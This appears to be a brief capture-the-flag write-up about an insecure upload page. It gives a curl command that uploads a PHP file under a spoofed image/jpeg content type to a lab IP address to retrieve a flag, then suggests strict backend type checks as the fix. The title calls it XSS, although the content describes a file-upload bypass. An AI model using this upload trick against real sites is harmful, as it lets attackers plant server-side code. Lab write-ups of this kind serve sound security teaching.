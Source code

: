 # 12_XSS_attack_upload

Any type of file can be uploaded

## Method
Go to ?page=upload  
We can inspect the form input button and see it is set to `type=file`

## How to exploit

This means a any in our case php file can be uploaded.  
Curl will be used for this

curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@empty.php;type=image/jpeg' "http://192.168.1.75/?page=upload#" | grep flag

This returns an html page with the flag

## Solution
Always use strict types when uploading files & check file type on the backend as well.